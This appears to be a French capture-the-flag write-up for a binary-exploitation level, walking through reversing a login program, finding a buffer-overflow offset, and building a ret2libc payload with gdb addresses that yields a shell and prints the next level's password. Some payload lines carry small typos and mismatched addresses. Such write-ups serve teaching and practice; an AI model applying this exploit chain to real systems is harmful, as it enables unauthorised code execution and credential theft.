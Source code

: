 ## Level01

Lorsqu’on lance le programme, celui-ci nous demande un login.

On ouvre le programme sur cutter, on trouve que  verify_user_name(); est appelée.

On cherche donc dans cette fonction et on trouve une string : “dat_wil”. On essaie alors d’entrer cette string en tant qu’username et cela nous permet d’accéder au champ password.

On voit dans cutter une string “admin” qui est comparée. On essaie alors d’entrer “admin” en password, mais ça ne fonctionne pas.

Essayons de buffer overflow le fgets du password :

    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

    Program received signal SIGSEGV, Segmentation fault.
    0x37634136 in ?? ()

0x37634136 nous donne un offset de 80.

Le problème c’est qu’on ne voit pas de /bin/sh dans le programme. On va donc essayer de la trouver avec une ret2libc attack.

    (gdb) b *main+173
    Breakpoint 1 at 0x804857d
    
    (gdb) info proc map
    process 1857
    Mapped address spaces:
    Start Addr End Addr Size Offset objfile
    0x8048000 0x8049000 0x1000 0x0 /home/users/level01/level01
    0x8049000 0x804a000 0x1000 0x0 /home/users/level01/level01
    0x804a000 0x804b000 0x1000 0x1000 /home/users/level01/level01
    0xf7e2b000 0xf7e2c000 0x1000 0x0
    0xf7e2c000 0xf7fcc000 0x1a0000 0x0 /lib32/libc-2.15.so
    0xf7fcc000 0xf7fcd000 0x1000 0x1a0000 /lib32/libc-2.15.so
    0xf7fcd000 0xf7fcf000 0x2000 0x1a0000 /lib32/libc-2.15.so
    0xf7fcf000 0xf7fd0000 0x1000 0x1a2000 /lib32/libc-2.15.so
    0xf7fd0000 0xf7fd4000 0x4000 0x0
    0xf7fd8000 0xf7fdb000 0x3000 0x0
    0xf7fdb000 0xf7fdc000 0x1000 0x0 [vdso]
    0xf7fdc000 0xf7ffc000  0x20000 0x0 /lib32/ld-2.15.so
    0xf7ffc000 0xf7ffd000 0x1000  0x1f000 /lib32/ld-2.15.so
    0xf7ffd000 0xf7ffe000 0x1000  0x20000 /lib32/ld-2.15.so
    0xfffdd000 0xffffe000  0x21000 0x0 [stack]

    (gdb) find 0xf7e2b000, 0xf7fcc000,"bin/sh"
    (gdb) 0xf7f897ec
		1 pattern found.

Ici nous cherchons /bin/sh entre les adresses  **0xf7e2b000** et **0xf7ffdd00** grâce à gdb on trouve que /bin/sh se trouve à l'adresse : **0xf7f897ec**


    (gdb) info function system
    All functions matching regular expression "system":
   
    Non-debugging symbols:
    0xf7e6aed0  __libc_system
    0xf7e6aed0  system
    0xf7f48a50  svcerr_systemerr

On prend donc l'adresse de libc_system : **0xf7e6aed0**

    (gdb) info function exit
    All functions matching regular expression "exit":
    
    Non-debugging symbols:
    0xf7e5eb70  exit
    0xf7e5eba0  on_exit
    0xf7e5edb0  __cxa_atexit
    0xf7e5ef50  quick_exit
    0xf7e5ef80  __cxa_at_quick_exit
    0xf7ee45c4  _exit
    0xf7f27ec0  pthread_exit
    0xf7f2d4f0  __cyg_profile_func_exit
    0xf7f4bc30  svc_exit
    0xf7f55d80  atexit
Ici nous prenons l'adresse de l'exit : **0xf7e5eb70**

A partir de là nous pouvons créer notre payload :

*Overflow + System + Exit + /bin/sh*

Ce qui nous donne : 

    $ python -c "print 'A' * 80 + '\xd0\xae\xe6\xf7 + '\x70\xeb\xe5\xf7' + '\xed\x97\xf8\xf7'" > /tmp/payload

On ajoute alors la première commande pour accéder au password ce qui nous donne : 

    $ python -c "print 'dat_will' + '\n' + 'A' * 80 + '\xd0\xae\xe6\xf7' + '\x70\xeb\xe5\xf7' + '\xec\x97\xf8\xf7' " > /tmp/payload

    cat /tmp/payload - | ./level01
    ********* ADMIN LOGIN PROMPT *********
    Enter Username: verifying username....
    
    Enter Password:
    nope, incorrect password...

    $ whoami
    level02
    $ cat /home/users/level02/.pass
    PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
